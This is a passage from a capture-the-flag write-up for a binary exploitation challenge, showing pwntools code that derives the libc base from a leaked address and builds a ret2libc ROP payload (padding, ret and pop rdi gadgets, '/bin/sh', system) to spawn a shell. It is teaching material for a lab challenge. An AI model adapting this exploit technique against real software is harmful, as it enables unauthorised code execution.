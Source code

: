 After we leak the function addresses, we can get the libc base by subtracting the system offset from the libc leaked system address:

```py

libc.address = system_address - libc.sym.system

```

Lastly after finding the libc base address, all we have to do is call system("/bin/sh"). This is done inside of the get_shell() function:

```py
def get_shell(p):

    payload = b'A' * 72

    payload += p64(rop.ret[0])

    payload += p64(rop.rdi[0])

    payload += p64(next(libc.search(b'/bin/sh')))

    payload += p64(libc.sym.system)

    p.sendlineafter(b'payload: ', payload)
```

One weird thing that happens in binaries is that sometimes you run into stack alignment issues. This typically occurs when your payload offset from the stack isn't divisible by 16 bytes. To fix this, you typically use a ret gadget that just calls "ret" in the binary, so it basically does nothing except pop 8 bytes off of the stack. This is what the rop.ret[0] instruction does in this function.

Other than that,  you have to do another "pop rdi; ret" call, and enter an address in the binary where '/bin/sh' is located, then the system function from libc is called with rdi as an address that has /bin/sh in it. This will spawn a shell.



## Solution

![Solution](./Solution.png)

flag: ```WSUCTF{4ll_I_need_is_the_syst3m_address}```